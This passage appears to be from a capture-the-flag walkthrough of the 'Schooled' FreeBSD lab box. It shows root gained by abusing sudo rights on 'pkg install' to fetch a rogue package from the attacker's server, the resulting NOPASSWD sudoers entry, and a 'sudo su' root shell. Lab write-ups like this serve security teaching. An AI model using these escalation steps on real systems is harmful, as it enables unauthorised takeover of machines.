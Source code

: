 

Next I'll install my package:



    jamie@Schooled:/var/tmp/.0xdf $ sudo pkg install 0xdf 
    Updating FreeBSD repository catalogue...
    Fetching meta.conf: 100%    163 B   0.2kB/s    00:01    
    FreeBSD repository is up to date.
    All repositories are up to date.
    The following 1 package(s) will be affected (of 0 checked):

    New packages to be INSTALLED:
            0xdf: 1.0_5

    Number of packages to be installed: 1

    572 B to be downloaded.

    Proceed with this action? [y/N]: Y
    [1/1] Fetching 0xdf-1.0_5.txz: 100%    572 B   0.6kB/s    00:01    
    Checking integrity... done (0 conflicting)
    [1/1] Installing 0xdf-1.0_5...
    [1/1] Extracting 0xdf-1.0_5: 100%



All looks good there. At the webserver, it requests `meta.conf` and
`packagesite.txz` (both of which return 304 Not Modified), and then the
package:



    10.10.10.234 - - [06/Apr/2021 09:04:49] "GET /packages/meta.conf HTTP/1.1" 304 -
    10.10.10.234 - - [06/Apr/2021 09:04:49] "GET /packages/packagesite.txz HTTP/1.1" 304 -
    10.10.10.234 - - [06/Apr/2021 09:04:54] "GET /packages/0xdf-1.0_5.txz HTTP/1.1" 200 -



### Shell

More importantly, it worked:



    jamie@Schooled:/var/tmp/.0xdf $ sudo -l
    User jamie may run the following commands on Schooled:
        (ALL) NOPASSWD: /usr/sbin/pkg update
        (ALL) NOPASSWD: /usr/sbin/pkg install *
        (ALL) NOPASSWD: ALL



`sudo su` will provide a root shell:



    jamie@Schooled:~ $ sudo su
    root@Schooled:/usr/home/jamie #



And `root.txt`:
